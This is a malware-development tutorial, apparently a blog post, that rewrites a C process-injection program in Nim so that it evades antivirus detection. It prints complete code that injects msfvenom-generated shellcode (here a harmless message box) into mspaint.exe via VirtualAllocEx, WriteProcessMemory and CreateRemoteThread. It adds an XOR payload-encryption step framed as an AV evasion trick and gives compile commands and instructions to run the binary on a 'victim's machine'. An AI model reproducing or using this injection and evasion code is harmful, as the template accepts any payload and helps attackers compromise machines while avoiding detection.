# Malware Development: from C to Nim. Simple process injection example

﷽

Hello, cybersecurity enthusiasts and white hackers!     

    

When malware is found to be written in new programming languages, AV detections are often failing since the new language produces bytecode sequences that are relatively unknown, combined with strings of data that can throw off static-based heuristic models.     

For this reason, in this article today we will look at a classic malware in C and rewrite it on Nim and compare AV detection scores.      

First of all, consider a simple C malware example:    

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// using msfvenom for windows/x64/messagebox with text and title, excluding certain characters
unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\xfe\x00\x00\x00\x3e"
  "\x4c\x8d\x85\x09\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56\xff"
  "\xd5\x6d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x63\x61"
  "\x74\x00";

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, sizeof(my_payload), NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

As you can see, the logic is pretty simple, you can read more about it here: [https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html)     

### practical example 1

Let's implement the same logic in Nim. This post is not introduction to Nim, for this you can read official documentation intro.    

```nim
echo "hello world!"
```

For process injection, let's create process first:    

```nim
import osproc
import winim

let process = startProcess("mspaint.exe")
echo "started  process: ", process.processID
```

As you can see, we need modules like `winim` or `osproc`, then just call `startProcess`.     

Then add injection logic. It's looks like this:     

```nim
let ph = winim.OpenProcess(
    PROCESS_ALL_ACCESS,
    false,
    cast[DWORD](process.processID)
)

# payload
var payload: array[282, byte] = [
byte 0xfc,0x48,0x81,0xe4,0xf0,0xff,
0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,
0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,
0x50,0x3e,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,
0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,
0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,
0x20,0x3e,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,
0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,
0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x01,
0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,
0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,
0x08,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,
0x49,0x01,0xd0,0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,
0x40,0x1c,0x49,0x01,0xd0,0x3e,0x41,0x8b,0x04,0x88,0x48,0x01,
0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,
0x49,0xc7,0xc1,0x00,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,0xfe,
0x00,0x00,0x00,0x3e,0x4c,0x8d,0x85,0x09,0x01,0x00,0x00,0x48,
0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,0xd5,0x48,0x31,
0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x6d,0x65,0x6f,
0x77,0x2d,0x6d,0x65,0x6f,0x77,0x21,0x00,0x63,0x61,0x74,0x00
]

when isMainModule:
    let mem = VirtualAllocEx(
        ph,
        NULL,
        cast[SIZE_T](payload.len),
        MEM_COMMIT,
        PAGE_EXECUTE_READ_WRITE
    )
    var btw: SIZE_T
    let wp = WriteProcessMemory(
        ph,
        mem,
        unsafeAddr payload,
        cast[SIZE_T](payload.len),
        addr btw
    )
    echo "writeprocessmemory: ", bool(wp)
    let th = CreateRemoteThread(
        ph,
        NULL,
        0,
        cast[LPTHREAD_START_ROUTINE](mem),
        NULL,
        0,
        NULL
    )
    echo "successfully inject to process: ", process.processID
    echo "thread Handle: ", th
```

As you can see, the logic is the same as in the C code: open process handle, allocate memory, copy memory and run thread. But the only difference is how we can generate payload for nim language?     

For this we can use `msfvenom`:    

```bash
msfvenom -p windows/x64/messagebox TEXT='meow-meow!' TITLE='cat' -f csharp
```

    

In our case little bit modify this brackets and variable:   

```nim
var payload: array[282, byte] = [
byte 0xfc,0x48,0x81,0xe4,0xf0,0xff,
0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,
0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,
0x50,0x3e,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,
0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,
0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,
0x20,0x3e,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,
0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,
0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x01,
0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,
0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,
0x08,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,
0x49,0x01,0xd0,0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,
0x40,0x1c,0x49,0x01,0xd0,0x3e,0x41,0x8b,0x04,0x88,0x48,0x01,
0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,
0x49,0xc7,0xc1,0x00,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,0xfe,
0x00,0x00,0x00,0x3e,0x4c,0x8d,0x85,0x09,0x01,0x00,0x00,0x48,
0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,0xd5,0x48,0x31,
0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x6d,0x65,0x6f,
0x77,0x2d,0x6d,0x65,0x6f,0x77,0x21,0x00,0x63,0x61,0x74,0x00
]
```

So the final full source code is look like this `hack.nim`:    

```nim
import osproc
import winim

let process = startProcess("mspaint.exe")
echo "started  process: ", process.processID

let ph = winim.OpenProcess(
    PROCESS_ALL_ACCESS,
    false,
    cast[DWORD](process.processID)
)

# messagebox meow-meow payload
var payload: array[282, byte] = [
byte 0xfc,0x48,0x81,0xe4,0xf0,0xff,
0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,
0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,
0x50,0x3e,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,
0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,
0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,
0x20,0x3e,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,
0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,
0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x01,
0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,
0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,
0x08,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,
0x49,0x01,0xd0,0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,
0x40,0x1c,0x49,0x01,0xd0,0x3e,0x41,0x8b,0x04,0x88,0x48,0x01,
0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,
0x49,0xc7,0xc1,0x00,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,0xfe,
0x00,0x00,0x00,0x3e,0x4c,0x8d,0x85,0x09,0x01,0x00,0x00,0x48,
0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,0xd5,0x48,0x31,
0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x6d,0x65,0x6f,
0x77,0x2d,0x6d,0x65,0x6f,0x77,0x21,0x00,0x63,0x61,0x74,0x00
]

when isMainModule:
    let mem = VirtualAllocEx(
        ph,
        NULL,
        cast[SIZE_T](payload.len),
        MEM_COMMIT,
        PAGE_EXECUTE_READ_WRITE
    )
    var btw: SIZE_T
    let wp = WriteProcessMemory(
        ph,
        mem,
        unsafeAddr payload,
        cast[SIZE_T](payload.len),
        addr btw
    )
    echo "writeprocessmemory: ", bool(wp)
    let th = CreateRemoteThread(
        ph,
        NULL,
        0,
        cast[LPTHREAD_START_ROUTINE](mem),
        NULL,
        0,
        NULL
    )
    echo "successfully inject to process: ", process.processID
    echo "thread Handle: ", th
```

### demo 1

Compile our malware:    

```bash
nim c -d:mingw --cpu:amd64 hack.nim
```

    

Then, just move it to the victim's machine (Windows 11 in my case) and run:    

```powershell
.\hack.exe
```

    

    

To verify our payload is indeed injected into `mspaint.exe` process we can use Process Hacker 2, in memory section we can see:     

    

    

So, it seems our simple injection logic worked!     

### practical example 2

Let's update our simple example. Add simple AV evasion trick: encrypt our payload.    

For simplicity, we use XOR encryption algorithm. Our new example looks like this:    

```nim
import osproc
import winim

proc xorEnc(data: seq[byte], key: seq[byte]): seq[byte] =
    var enc: seq[byte]
    for i in 0 ..< len(data):
        enc.add(data[i] xor key[i mod len(key)])
    result = enc

let process = startProcess("mspaint.exe")
echo "started  process: ", process.processID

let ph = winim.OpenProcess(
    PROCESS_ALL_ACCESS,
    false,
    cast[DWORD](process.processID)
)

let mykey: seq[byte] = @[0x6d, 0x65, 0x6f, 0x77, 0x6d, 0x65, 0x6f, 0x77]
let encrypted: seq[byte] = @[] // encrypted payload

when isMainModule:
    let payload = xorEnc(encrypted, mykey)
    let mem = VirtualAllocEx(
        ph,
        NULL,
        cast[SIZE_T](encrypted.len),
        MEM_COMMIT,
        PAGE_EXECUTE_READ_WRITE
    )
    var btw: SIZE_T
    let wp = WriteProcessMemory(
        ph,
        mem,
        unsafeAddr payload[0],
        cast[SIZE_T](encrypted.len),
        addr btw
    )
    echo "writeprocessmemory: ", bool(wp)
    let th = CreateRemoteThread(
        ph,
        NULL,
        0,
        cast[LPTHREAD_START_ROUTINE](mem),
        NULL,
        0,
        NULL
    )
    echo "successfully inject to process: ", process.processID
    echo "thread Handle: ", th
```

But we need encrypted payload. For encrypting our payload we will need encryption script like this `xorE.nim`:    

```nim
import strutils

proc xorEnc(data: seq[byte], key: seq[byte]): seq[byte] =
    var enc: seq[byte]
    for i in 0 ..< len(data):
        enc.add(data[i] xor key[i mod len(key)])
    result = enc

when isMainModule:
    let payload: seq[byte] = @[
    byte 0xfc,0x48,0x81,0xe4,0xf0,0xff,
    0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
    0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,
    0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,
    0x50,0x3e,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,
    0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,
    0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,
    0x20,0x3e,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,
    0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,
    0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
    0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x01,
    0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,
    0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,
    0x08,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,
    0x49,0x01,0xd0,0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,
    0x40,0x1c,0x49,0x01,0xd0,0x3e,0x41,0x8b,0x04,0x88,0x48,0x01,
    0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
    0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
    0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,
    0x49,0xc7,0xc1,0x00,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,0xfe,
    0x00,0x00,0x00,0x3e,0x4c,0x8d,0x85,0x09,0x01,0x00,0x00,0x48,
    0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,0xd5,0x48,0x31,
    0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x6d,0x65,0x6f,
    0x77,0x2d,0x6d,0x65,0x6f,0x77,0x21,0x00,0x63,0x61,0x74,0x00
    ]
    let key: seq[byte] = @[0x6d, 0x65, 0x6f, 0x77, 0x6d, 0x65, 0x6f, 0x77]

    let enc = xorEnc(payload, key)
    var enchex: seq[string]
    for b in enc:
        enchex.add("0x" & $toHex(b, 2))
    echo "payload encrypted:\n", enchex.join(", ")

    let decr = xorEnc(enc, key)
    var decrhex: seq[string]
    for b in decr:
        decrhex.add("0x" & $toHex(b, 2))
    echo "original payload:\n", decrhex.join(", ")
```

Compile it:    

```bash
nim c -d:mingw --cpu:amd64 xorE.nim
```

